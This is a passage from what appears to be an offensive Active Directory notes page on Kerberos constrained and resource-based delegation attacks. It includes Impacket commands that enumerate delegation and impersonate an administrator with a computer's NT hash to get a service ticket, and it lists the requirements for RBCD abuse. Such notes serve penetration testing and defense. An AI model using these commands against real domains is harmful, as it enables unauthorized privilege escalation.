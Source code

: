 ### Constrained Delegation

In this situation, the computer in delegation has a list of services where it can delegate an authentication. This is controlled by `msDS-AllowedToDelegateTo` attribute that contains a list of SPNs to which the user tokens can be forwarded. No ticket is stored in LSASS.

To impersonate the user, Service for User (S4U) extension is used which provides two extensions:

* Service for User to Self (**S4U2self**) - Allows a service to obtain a forwardable TGS to itself on behalf of a user with just the user principal name without supplying a password. The service account must have the **TRUSTED\_TO\_AUTHENTICATE\_FOR\_DELEGATION** – T2A4D UserAccountControl attribute.
* Service for User to Proxy (**S4U2proxy**) - Allows a service to obtain a TGS to a second service on behalf of a user.

#### Enumerate users and computers with CD enabled

```bash
findDelegation.py -dc-ip <DC_IP> domain.local/user1:password

#For another domain across trust
findDelegation.py -target-domain <target_domain> domain.local/user1:password
```

#### With protocol transition

Any service can be specified on the target since it is not correctly checked.

```bash
getST.py -spn 'cifs/target.domain.local' -impersonate administrator -hashes ':<computer_NThash>' -dc-ip <DC_IP> domain.local/computer
export KRB5CCNAME=./Administrator.ccache
```

#### Without protocol transition

In this case, it is not possible to use **S4U2self** to obtain a forwardable ST for a specific user. This restriction can be bypassed with an RBCD attack detailled in the following section.

### Resource-Based Constrained Delegation

[**Wagging The Dog**](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)

With RBCD, this is the resource machine (the machine that receives delegation) which has a list of services that can delegate to it. This list is specified in the attribute `msds-allowedtoactonbehalfofotheridentity` and the computer can modified its own attribute (really usefull in NTLM relay attack scenario).

#### Requirements

* The DC has to be at least a **Windows Server 2012**
* Write rights on the target machine (**GenericAll, GenericWrite, AllExtendedRights**)
* Target computer, object must not have the attribute `msds-allowedtoactonbehalfofotheridentity` set

#### Enumerate users and computers with RBCD enabled
